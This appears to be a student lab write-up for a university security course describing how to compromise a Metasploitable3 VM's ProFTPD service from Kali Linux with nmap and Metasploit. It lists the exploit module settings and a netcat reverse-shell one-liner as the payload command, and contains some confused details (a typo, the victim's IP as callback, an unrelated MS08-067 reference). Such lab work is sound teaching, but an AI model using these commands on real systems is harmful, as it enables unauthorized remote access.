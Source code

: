 # Phase 1 – Setup and Compromise of a Vulnerable Service

This phase focused on preparing the environment and compromising a vulnerable service using both **Metasploit** and a **custom script**. It reflects hands-on penetration testing and offensive security skills, performed in a safe and isolated environment.

---

## Disclaimer
This guide is created **strictly for educational purposes** within the scope of the KFUPM ICS344 course. Attempting to compromise systems without proper authorization is illegal and unethical.

---

## Objectives

- Set up Metasploitable3 (Victim) and Kali Linux (Attacker)
- Verify connectivity and identify open ports/services
- Exploit a vulnerable service using Metasploit
- Build and execute a **custom exploit script**
- Document all steps and commands used

---

## Victim Environment: Metasploitable3

### Setup Steps

1. **Download and then launch the imported Metasploitable 3 VM**  
   `https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/`  

2. **Login:**  
   Username: `vagrant`  
   Password: `vagrant`
   

---

## Attacker Environment: Kali Linux

### Initial Setup & Updates  
`sudo apt update && sudo apt upgrade -y`

---

## Ensuring Connectivity Between VMs

### Get victim machine IP:  
Run inside Metasploitable3: `ipconfig`

### Get attacker machine IP:  
Run inside Kali: `ip a`

### Test connectivity:  
`ping 192.168.56.101`   

![image](https://github.com/user-attachments/assets/2277bcbe-8b33-4d3e-b34e-4a36e0c0e326)

---

## Port Scanning with Nmap  
`nmap -sV 192.168.56.101`

Sample Output Snippet:

![image](https://github.com/user-attachments/assets/3e1945ac-9c08-4186-b615-5cbc3e4157b1)


---

## Selected Service: ftp (port 21)

Due to its history of vulnerabilities and real-world relevance , we selected **ftp** for this attack phase.

---

## Exploitation using Metasploit

### Launch Metasploit Console:  
`sudo msfconsole`

### Search services available for exploitation:
`search proftpd`

![image](https://github.com/user-attachments/assets/ec755932-aafb-48a2-b310-7f6655256c60)


### Load ftp Exploit Module:  
`use exploit/unix/ftp/proftpd_modcopy_exec`

### Check required options for exploitation:  
`show options`

![image](https://github.com/user-attachments/assets/081249f6-fa57-4fc0-9be2-f3dab5b0690e)


### Set required options:  
`set RHOSTS 192.168.56.101`  
`set SITEPATH /var/www/html`   
`set AllowNoCleanup true`

### Check and select an available payload:  
`show payloads`
`set payload cmd/unix/generic`

### Check required options for payload:  
`show payload options`

![image](https://github.com/user-attachments/assets/45ea9953-3f70-4c0b-b52e-459e4520024a)


### Set required payload options:    
`set cmd rm /tmp/f;mkfifo /tmp/f; ca /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`

### Start listening from the victim machine:

![image](https://github.com/user-attachments/assets/e3dd1956-ee44-456b-82a1-06a62149ef8c)


### Exploit!  
`run`

### Verify access:

![image](https://github.com/user-attachments/assets/2a63233c-c97f-4522-9169-aec7a06f986b)


 If successful, a Meterpreter session is opened, providing full access.

---

## Custom Exploitation Script

We wrote a **Python script** to automate the attack for demonstration.

### Connect to the victim's ftp:

![image](https://github.com/user-attachments/assets/57344a02-0df7-470e-85c9-dcaae6ead95c)

### Run the script: 

![image](https://github.com/user-attachments/assets/04aef6fc-55a9-4443-8470-f39915c966a6)


---



## Challenges Faced

- Issues with Metasploitable3 provisioning on some hardware
- Initial network misconfiguration between VMs
- Failing to open sessions after using the `run` command
---

## Summary

| Task                        | Status       |
|-----------------------------|--------------|
| Metasploitable3 setup       |  Done      |
| Kali Linux setup            |  Done      |
| Service enumeration (Nmap)  |  Done      |
| Metasploit attack           |  Success   |
| Custom script creation      |  Tested    |
| Screenshots and documentation | Attached |

---

## References

- [Metasploit Framework](https://www.metasploit.com/)
- [Rapid7 Guide on Metasploitable3](https://github.com/rapid7/metasploitable3)
- [MS08-067 Vulnerability](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
